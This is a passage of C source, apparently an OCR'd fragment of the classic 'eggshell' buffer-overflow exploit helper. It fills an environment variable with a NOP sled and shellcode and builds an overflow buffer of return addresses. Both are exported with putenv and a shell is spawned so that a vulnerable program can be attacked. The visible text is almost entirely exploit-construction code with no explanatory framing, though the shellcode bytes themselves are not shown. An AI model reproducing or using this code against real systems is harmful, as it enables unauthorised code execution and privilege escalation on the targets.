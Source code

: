 ```c
        *(addr_ptr++) = addr;

    ptr = egg;
    for (i = 0; i <= eggsize - strlen(shellcode) - NOP_SIZE; i += NOP_SIZE)
    for (n = 0; n < NOP_SIZE; n++) {
        m = (n + align) % NOP_SIZE;
        *(ptr++) = nop[m];
    }

    for (i = 0; i < strlen(shellcode); i++)
        *(ptr++) = shellcode[i];

    bof[bsize - 1] = '\0';
    egg[eggsize - 1] = '\0';

    memcpy(egg,"EGG=",4);
    putenv(egg);

    memcpy(bof,"BOF=",4);
    putenv(bof);
    system("/bin/sh");
}

void usage(void) {
    (void)fprintf(stderr,
        "usage: eggshell [-a ] [-b ] [-e ] [-o ]\n");
}
```